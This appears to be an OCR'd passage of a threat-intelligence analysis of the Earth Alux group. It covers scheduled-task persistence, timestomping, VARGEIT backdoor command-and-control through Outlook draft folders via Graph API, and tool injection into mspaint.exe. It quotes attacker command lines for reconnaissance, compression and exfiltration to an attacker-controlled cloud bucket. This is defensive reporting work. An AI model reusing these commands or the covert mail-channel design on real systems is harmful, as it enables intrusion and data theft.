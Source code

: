 *   **Persistence:** The main method for achieving persistence is by creating **scheduled tasks** for Earth Alux's backdoors. **RAILSETTER** is a tool specifically designed for persistence, which copies and renames RAILLOAD's host, performs **timestomping** on RAILLOAD and its host, and creates scheduled tasks. RAILSETTER is typically loaded via `regsvr32.exe`. However, in later incidents, RAILSETTER is executed via VARGEIT's **mspaint injection method**. The configuration for RAILSETTER is base64-encoded and contains information such as target host, timestomping date, destination path, RAILLOAD file, scheduled task name, description, and trigger time.
*   **Defense Evasion:** Besides MASQLOADER's anti-API hooking, **RAILSETTER** employs **timestomping techniques** to modify the create, access, and modify times of files. **RAILLOAD** can be configured to use a decryption key from the registry, potentially as an evasion tactic. **MASQLOADER** also has an **anti-API hooking feature**.

**Command and Control (C&C):** The majority of C&C activities are managed through **VARGEIT's features**, which supports multiple communication channels.

*   **VARGEIT Channels:** VARGEIT is a multi-channel configurable backdoor with various communication options, including HTTP, Reverse TCP, Reverse UDP, Bind TCP, Bind HTTP, **Outlook (via Graph API)**, ICMP, DNS, Web, and Bind SMB.
*   **Outlook Channel:** The **Outlook channel, utilizing Graph API**, is predominantly used. Later variants might exclusively use the Outlook channel. Graph API allows operations on a user's Outlook mail data, including reading, sending, and managing emails.
*   **Communication Mechanism:** Using Graph API, VARGEIT utilizes the **draft folder in Outlook** for message exchange with the C&C server. Backdoor messages are prepended with `p_`, and controller messages with `r_`. Processed messages are deleted to remove traces.
*   **Message Structure:** Messages from the C&C server (prepended with `r_`) contain a **message ID** (fnv-1a x64 hash of a randomly generated GUID) in the subject line and a **base64-encoded, AES-128 CBC encrypted, and zlib compressed** content in the body. The decoded message has a header structure containing random padding, the size of the byte array, the message ID in hex, and the start of the encrypted data. After decryption and decompression, the message contains the size of the uncompressed message, the size of the parameter data, a **Command ID**, and additional arguments. Backdoor messages (prepended with `p_`) share a similar structure with additional fields in the header.

**Discovery, Lateral Movement, Collection, and Exfiltration:** VARGEIT utilizes its capabilities and injected tools (often within `mspaint.exe` processes) for these stages.

*   **Discovery:** Earth Alux deploys tools via mspaint injection for **security event log and group policy discovery** (e.g., `C:\Windows\System32\mspaint.exe Aslire597 <additional parameters>`) and **network/LDAP reconnaissance** (e.g., `C:\Windows\System32\mspaint.exe sElf98RqkF ldap <IP> <AD Domain> <machine AD domain>`). The network reconnaissance can create various text files containing network information within a directory structure like `c:\programdata\data\<ad domain name>_<date and time of collection>\`. These files are later archived into a ZIP file.
*   **Lateral Movement:** VARGEIT can load tools directly from its C&C server to a spawned process of `mspaint.exe` for various tasks, including lateral movement.
*   **Collection:** Earth Alux can load a custom compression tool into `mspaint.exe` for collecting and compressing data, often outputting `.tar.gz` files. The command-line might look like: `C:\Windows\System32\mspaint.exe <target directory for compression> <path and filename of compressed file> <unknown argument>`.
*   **Exfiltration:** An exfiltration tool is also deployed via `mspaint.exe` to send the compressed data to an **attacker-controlled cloud storage bucket**. The command line might include arguments like: `C:\Windows\System32\mspaint.exe gWgGfsq1PcUUoo <region> <bucket name> <ID> <secret> <expire time> dm9TTlEwM0NXRkF3TXRkM3RVSHg3SGQ3TDl4YVNRNGY= <path of data for exfiltration>`.

**Testing and Development:** Earth Alux conducts tests on their tools like RAILLOAD and RAILSETTER, including detection tests and searching for new DLL side-loading hosts using tools like **ZeroEye** and **CloneExportTable**. **VirTest** is used for detection testing and enhancing evasion capabilities.
